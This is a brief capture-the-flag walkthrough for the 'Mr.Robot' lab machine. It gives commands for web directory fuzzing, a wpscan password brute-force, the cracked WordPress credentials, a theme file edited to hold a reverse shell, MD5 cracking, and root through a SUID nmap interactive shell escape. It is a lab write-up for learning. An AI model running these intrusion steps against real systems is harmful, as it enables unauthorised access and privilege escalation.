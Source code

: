 ## Mr.Robot

#### Http Enum
```
$ ffuf -w {WORDLIST} -u http://{EXPORT_IP}/FUZZ

> /robots
>> fsocity.dic
>> key-1-of-3.txt
```
- Get First Flag in : "/key-1-of-3.txt"
- Next : just save "fsocity.dic" File
  - cat fsocity | sort -r | uniq >> filter.dic

#### WordPress Login
```
$ wpscan --url http://{IP} --passwords filter.dic --username {USERNAME_DICT}
```
- elliot:ER28-0652

#### Gaining Access
```
1. themes/twentyfifteen/arcivce.php << edit revshell.php

2. http://{IP}/wp-content/themes/twentyfifteen/archive.php
```

#### USER Escalate
```
$ cd ~/home/robot

$ cat password.raw-md5

crackstation :  c3fcd3d76192e4007dfb496cca67e13b 

$ su robot
passwords : abcdefghijklmnopqrstuvwxyz

$ cat key-2-of-3.txt
```

#### Root Escalte
```
$ find / -perm -4000 2>/dev/null

$ /usr/local/bin/nmap --interactive

$ !sh

# cat /root/key-3-of-3.txt
```